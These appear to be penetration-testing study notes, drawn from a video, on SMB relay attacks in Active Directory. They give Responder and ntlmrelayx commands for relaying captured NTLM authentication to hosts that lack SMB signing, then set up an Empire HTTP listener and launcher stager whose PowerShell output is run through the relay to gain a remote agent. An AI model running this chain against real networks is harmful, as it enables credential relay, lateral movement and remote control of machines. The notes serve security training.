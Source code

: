 Tags: #activedirectory #privesc Related to: See also: Previous:

## Links
Topic: SMB Relay and Empire Author: TCM Link: [https://www.youtube.com/watch?v=b31KbDb-5DA](https://www.youtube.com/watch?v=b31KbDb-5DA)

## Notes
### SMB Relaying
A way to take a hash of a user and use it to authenticate on other machines (lateral movement)

Requires SMB signing be disabled/not required
 - Technique relies on spoofing
 - SMB signing is disabled by default

### Procedure

Run responder (or inveigh) and ntmlrelayx (impacket)
 - Edit Responder.conf
 - Turn off HTTP and SMB `python Responder.py -I <interface> -wrf -v` --> "Listens for events" in verbose mode
 - Responder sort of acts like a mitm and gives malicious responses to a server that is seeking for help on the network
 - 
 `python ntlmrelayx.py -tf <target-file> -smb2support`
 
 - Launches a server that listens for connections. Seems to work automatically along with Responder without explicitly linking the tools together
- `-c`  can be used to run Powershell aftward, e.g. Empire payload
 
### Alt Procedure
 Using Empire (post exploitation framework)
 
`listeners`
`use listenerhttp`
`set Port XX`
`set Host XX`
`info` to check your work
`execute`
`back`
`usestager multi/launcher`
`set Listener http`
`generate`  --> makes powershell
Run ntlmrelayx using the powershell exploit
An agent should launch.
`interact`
`info`